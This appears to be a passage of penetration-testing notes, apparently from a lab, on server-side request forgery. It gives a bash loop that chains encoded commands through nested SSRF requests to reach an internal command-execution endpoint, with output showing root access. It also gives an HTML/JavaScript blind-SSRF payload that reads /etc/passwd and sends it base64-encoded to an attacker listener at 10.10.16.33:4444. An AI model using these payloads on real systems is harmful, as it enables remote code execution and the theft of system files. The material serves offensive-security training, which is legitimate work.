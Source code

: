 ### Automate Executing Commands

```bash
function rce() {
function> while true; do
function while> echo -n "# "; read cmd
function while> ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
function while> curl -s -o - "http://10.129.143.8/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
function while> echo ""
function while> done
function> }
```

```bash
rce
# whoami

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=whoami  
</h1><a>root  
</a></body></html>

```

# Blind SSRF

Server-Side Request Forgery vulnerabilities can be "blind." In these cases, even though the request is processed, we can't see the backend server's response. For this reason, blind SSRF vulnerabilities are more difficult to detect and exploit.

### Blind SSRF Example

If a web application accepts html as an upload, you can potentially have it send you a request if it processes the html code.

```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://10.10.16.33:4444/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```
